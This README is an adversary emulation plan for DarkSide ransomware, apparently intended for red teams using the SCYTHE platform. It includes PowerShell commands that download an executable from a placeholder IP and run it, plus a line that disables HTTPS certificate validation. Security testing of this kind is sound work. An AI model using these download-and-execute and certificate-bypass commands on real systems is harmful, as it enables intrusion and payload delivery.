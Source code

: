 # DarkSide Ransomware Adversary Emulation Plan

This threat was posted after the Colonial Pipeline ransomware attack on May 7, 2021. It is explained further in SCYTHE's Threat Thursday blog: https://www.scythe.io/library/threatthursday-darkside-ransomware

This threat is based on Cybereason's Cyber Threat Intelligence from April 2021: https://www.cybereason.com/blog/cybereason-vs-darkside-ransomware

To emulate:
1. Download and import the threat in JSON format to your SCYTHE instance - https://raw.githubusercontent.com/scythe-io/community-threats/master/DarkSide/DarkSide_scythe_threat.json
2. Download the Virtual File System (VFS) files under DarkSide/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/DarkSide
4. Ensure HTTP Relay is running on your SCYTHE server.
5. Create a new campaign, selecting HTTP, and ensuring the communication options match your HTTP Relay. Consider using a "naked IP address" instead of a domain to more closely emulate this attack.
6. Import from Existing Threat: DarkSide
7. Launch Campaign
8. Click More Actions and copy the URL for the desired EXE. 
9. In the target system, run this PowerShell command with the respective URL to download the payload as documented in the CTI: powershell -Command "(New-Object Net.WebClient).DownloadFile('http://0.0.0.0/ServiceLogin123','C:\Users\Public\update.exe')"
10. Execute update.exe

Note that SCYTHE forces HTTPS for operational security. Using an IP will result in a HTTPS certificate validation issue. To get around that:
- Open a PowerShell command prompt
- [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
- (New-Object Net.WebClient).DownloadFile('http://0.0.0.0/ServiceLogin123','C:\Users\Public\update.exe')
- C:\Users\Public\update.exe
